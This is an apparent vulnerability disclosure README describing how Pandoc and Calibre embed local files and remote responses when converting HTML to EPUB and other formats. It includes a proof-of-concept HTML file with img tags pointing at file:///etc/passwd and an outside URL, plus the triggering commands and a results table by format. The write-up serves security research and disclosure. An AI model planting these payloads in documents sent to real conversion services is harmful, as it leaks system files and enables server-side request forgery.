 # :bee: SSRF Vulnerability in PANDOC and CALIBRE
-
-
-
-
## :mushroom: PANDOC

### :spider_web: https://github.com/jgm/pandoc (Pandoc in Github)
- What is Pandoc?
- Pandoc is a Universal Markup Converter

[![Star History Chart](https://api.star-history.com/svg?repos=jgm/pandoc)](https://star-history.com/#jgm/pandoc)
---
-
-
-
-
## :mushroom: CALIBRE

### :spider_web: https://github.com/kovidgoyal/calibre (Calibre in Github)
- What is Calibre?
- The official source code repository for the calibre ebook manager

[![Star History Chart](https://api.star-history.com/svg?repos=kovidgoyal/calibre&type=Date)](https://star-history.com/#kovidgoyal/calibre)
---
-
-
-
-

## For Example
+ ### We install both applications on a linux computer and create a test file with html

### :lady_beetle: ssrf.html
+ `<img src="file:///etc/passwd">`
+ `<img src="http://ip-api.com/csv">`
+ ![ssrf.html](img/0x1.png "ssrf.html")

## Where does the vulnerability occur and how is it triggered?
+ When we want to convert an html file to a different document via terminal, we use the following command.
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ `$ ebook-convert ssrf.html ssrf.epub` CALIBRE

## SSRF via Converter (Example is PANDOC but you can also try CALIBRE)
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ ![0x2.png](img/0x2.png "0x2.png")
+ ![0x3.png](img/0x3.png "0x3.png")
+ After the html file is successfully converted to epub file, you need to open this epub file with "Archive Manager"
+ When we check the folders and subfolders in the epub file we opened with "Archive Manager", we will see one or two different files. When we open these files, we can see that the ssrf vulnerability is triggered.
+ ![0x4.png](img/0x4.png "0x4.png")
+ ![0x5.png](img/0x5.png "0x5.png")
+ ![0x6.png](img/0x6.png "0x6.png")
+ ![0x7.png](img/0x7.png "0x7.png")
+ ![0x8.png](img/0x8.png "0x8.png")

---
-
-
-
-

+ I went through all converter processes in pandoc and calibre and found that this vulnerability exists in multiple converters.
+ In the table below, you can examine what types of ssrf are in which files.

| PANDOC | EPUB | ODT | DOCX | PPTX | FB2 |
| --- | --- | --- | --- | --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: | :x:
`<img src="http://ip-api.com/csv">` | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: (Base64 Encoded)

| CALIBRE | EPUB |
| --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: |
`<img src="http://ip-api.com/csv">` | :x: |

+ In the example, we converted our html file to epub, but as you can see in the table above, we can see that the vulnerability is triggered not only when converting to epub but also other files.
---
-
-
-
-

> #### Created by 0x1717 aka GYG3S
